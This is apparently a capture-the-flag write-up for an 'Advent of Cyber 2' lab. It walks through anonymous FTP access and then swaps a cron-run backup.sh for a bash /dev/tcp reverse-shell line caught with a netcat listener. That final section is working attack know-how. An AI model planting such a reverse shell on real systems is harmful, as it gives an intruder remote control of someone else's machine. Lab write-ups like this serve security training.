 # [Network] FTP and netcat and reverse shell

IP: 10.10.212.125

Advent of Cyber 2: 

Reverse Shell cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

### Name the directory on the FTP server that has data accessible by the "anonymous" user
- First we use `ftp 10.10.212.125`
- When prompt to use the username, type `anonymous`
- Answer is `public`

### What script gets executed within this directory?
- `cd public`
- `backup.sh`

### What movie did Santa have on his Christmas shopping list?
- `get shoppinglist.txt`
- `The Polar Express`

### Netcat onto the FTP server
- Notice the `backup.sh` automatically run every 1 minute so we add a reverse shell script to make it work. 
- Get the sh and replace with the line `bash -i >& /dev/tcp/<your_ip>/4444 0>&1`. Put the sh files back again.
- `nc -lvnp 4444`
- Get the damn flag :)
